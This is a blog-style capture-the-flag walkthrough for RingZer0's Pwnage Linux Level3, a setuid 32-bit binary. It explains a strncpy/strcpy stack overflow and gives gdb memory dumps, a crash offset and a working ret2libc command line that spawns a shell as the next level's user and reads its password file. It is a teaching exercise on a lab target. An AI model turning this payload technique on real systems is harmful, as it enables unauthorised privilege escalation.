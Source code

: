 ```yaml
---
title: "R0 | Pwnage Linux - Level3"
layout: post
date: 2019-08-23
tag:
- Pwnage
- x86 
- Linux
- Ret2libc
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level3
---
```



`# file level3`

```
level3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=2336e9f02b6ccbbcccd445196c761004ba06c764, with debug_info, not stripped
```

> Has a setuid

> Is an ELF 32-bit LSB exec

> Is compile for Intel x86 processors


`# checksec level3`

```
[*] '/root/ringzer0team/pwnageLinux/level3/level3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

`# cat /levels/level3.c`

```c
// Created by Hidden (hidden@undernet.org)

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


char* concat(char *buf, char *s1, char *s2)
{
	// Copy s1 to buf
	strcpy(buf, s1);
	// Append s2 to s1 into buf
	strcat(buf, s2);
	return buf;
}


int main(int argc, char **argv)
{
	char buf[256];
	char buf1[128];
	char buf2[128];

	if (argc != 3)
		return 0;

	// Copy argv[1] to buf1 and argv[2] to buf2
	strncpy(buf1, argv[1], sizeof(buf1));
	strncpy(buf2, argv[2], sizeof(buf2));

	concat(buf, buf2, buf1);
	printf("String result: %s\n", buf);
	return 0;
}
```

> Well okay, if it's not already perceived, a good exercise would be for you to spot any anomaly, a use that differs from one point to another in this code...

> Need a hint? Okay, what differs from `strcpy()` and `strncpy()` ?

Problem w/ `strncpy( char *dest, const char *src, size_t n )`: If there is no null character among the first n character of src, the string placed in dest will not be null-terminated. So `strncpy()` does not guarantee that the destination string will be NULL terminated. Hence, its buffer memory can't be directly overflow.

Problem w/ `strcpy( char *dest, const char *src )`: The `strcpy()` function does not specify the size of the destination array, so buffer overrun is often a risk (as `strcat and strcmp`).

Fine! By fulling the `buf2` buffer w/o null byte, it's possible to overflow the `buf`. In other words, since `buf1` is right next (below) `buf2` on the stack and `strcpy` function stop copying when it gets a null char, `buf2` will looks something like `buf2` + `buf1`.

```
|      128      | arg2 -> buf2 -> s1
|      128      | arg1 -> buf1 -> s2
|      256      | buf 
|      ...      | 
| return_adress |
```

```bash
(gdb) r A `python -c 'print "\x42" * 127'`
(...)
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea357c	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddd0	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x00424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is B
```

```bash
(gdb) r A `python -c 'print "\x42" * 128'`
...
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea2a15	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddcd	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is \x42
```

Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and fuzz values to crash the program.

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 69'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 70'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Several methods can make it possible to execute arbitrary code, in particular by using a global variable in which there is a shellcode and the address is known beforehand. Although, I prefered to play a bit more with the basic gdb commands on the server to get more familiar w/ the basics and `ret2libc`.

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e56940 <system>
(gdb) find 0xf7e56940, +99999999999, "/bin/sh"
0xf7f7502b
warning: Unable to access 16000 bytes of target memory at 0xf7fcedb3, halting search.
1 pattern found.
```

Exploit this binary! ;)

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 64 + "\x40\x69\xe5\xf7"+ "CCCC"  + "\x2b\x50\xf7\xf7"'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��
level4@lxc-pwn-x86:/levels$ wc -l /home/level4/.pass
1 /home/level4/.pass
level4@lxc-pwn-x86:/levels$ 
```
